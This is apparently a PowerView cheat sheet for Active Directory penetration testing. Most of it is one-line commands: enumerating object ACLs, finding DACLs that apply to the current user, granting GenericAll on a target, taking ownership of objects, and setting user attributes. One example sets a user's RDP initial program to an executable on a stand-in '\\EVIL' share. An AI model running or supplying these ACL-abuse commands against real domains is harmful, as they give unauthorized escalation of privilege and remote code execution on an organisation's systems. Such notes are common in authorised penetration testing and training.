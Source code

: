 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 


## Get ACLs of an object 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user DACL
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add GenericAll to target for user
#cat/ATTACK/DACL-ABUSE
```powershell
Add-DomainObjectAcl -TargetIdentity <ldap_path> -PrincipalIdentity <current_user> -Rights All
```

## Set the owner 
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObjectOwner -Identity <target_object> -OwnerIdentity <user>
```

## set the specified property for the given user identity
@{'mstsinitialprogram'='\\EVIL\program.exe'}
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObject <user> -Set @{'<property>'='<value>'} -Verbose
```
